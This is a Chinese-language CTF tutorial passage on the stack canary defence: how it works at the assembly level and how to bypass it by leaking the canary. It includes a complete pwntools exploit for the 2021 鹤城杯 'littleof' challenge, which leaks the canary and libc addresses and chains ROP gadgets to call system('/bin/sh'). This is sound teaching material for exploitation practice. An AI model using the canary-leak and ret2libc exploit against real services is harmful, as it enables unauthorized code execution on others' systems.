




# 防护

## Canary

### 原理

开启Canary防护后，栈结构如下

程序会取寄存器fs的0x28位置的值，放入rbp-0x8的位置

~~~asm
mov    rax, qword ptr fs:[0x28]
mov    qword ptr [rbp - 8], rax
~~~

在函数返回之前，会将该值取出，并与 fs:0x28 的值进行异或。如果异或的结果为 0，说明 Canary 未被修改，函数会正常返回，这个操作即为检测是否发生栈溢出。

~~~asm
mov    rdx,QWORD PTR [rbp-0x8]
xor    rdx,QWORD PTR fs:0x28
je     0x4005d7 <main+65>
call   0x400460 <__stack_chk_fail@plt>
~~~

### 绕过

#### 泄露Canary

Canary的值以**'\x00'**结尾，保证其能够截断字符串，所以我们可以覆盖Canary的低位，来获得Canary的剩余部分，最后通过栈溢出来取得权限。

##### 例子

以[2021 鹤城杯]littleof为例，先进行checksec

开启了NX,Canary保护

再查看IDA，发现函数**sub_4006E2**中的**read**有栈溢出漏洞

**read**读取最大长度为**0x100**，而buf的最大长度为**0x50**。

题目开了**Canary**不能直接进行栈溢出，但第11行的**printf**会输出我们输入的内容，所以可以通过覆盖Canary的最低位**'/x00'**，来让程序泄露Canary值，从而在后面的溢出中将 Canary 填入到相应的溢出位置,绕过防护。

同时，程序没有**system**和**/bin/sh**的地址，我们可以通过泄露puts的got来得到libc基址，然后再次返回main进入sh

exp:

~~~python
from pwn import *

context(os = 'linux',arch = 'amd64',log_level = 'debug')
p = remote("node4.anna.nssctf.cn","28555")

elf = ELF('./littleof')

main_addr = 0x400789
ret_addr = 0x40059e
pop_rdi_addr = 0x400863
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

payload1 = b'a'*(0x50-0x8)
p.sendlineafter("overflow?\n",payload1)
p.recvuntil(b'a'*(0x50-0x8))
canary_addr = u64(p.recv(8).ljust(8,b'\x00')) - 0xa
print("canary:",hex(canary_addr))

payload2 = b'a'*(0x50-0x8) + p64(canary_addr) + p64(0) + p64(pop_rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
p.sendlineafter("harder!",payload2)
p.recvline()
puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
print('puts_addr:',hex(puts_addr))

base_addr = puts_addr - 0x080aa0
system_addr = base_addr + 0x04f550
binsh_addr = base_addr + 0x1b3e1a

payload1 = b'a'*(0x50-0x8)
p.sendlineafter("overflow?\n",payload1)
p.recvuntil(b'a'*(0x50-0x8))
canary_addr = u64(p.recv(8).ljust(8,b'\x00')) - 0xa
print('canary:',hex(canary_addr))

payload3 = b'a'*(0x50-0x8) + p64(canary_addr) + p64(0) + p64(ret_addr) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr) + p64(0xdeadbeef)

p.sendlineafter("harder!",payload3)
p.interactive()
~~~

运行结果:

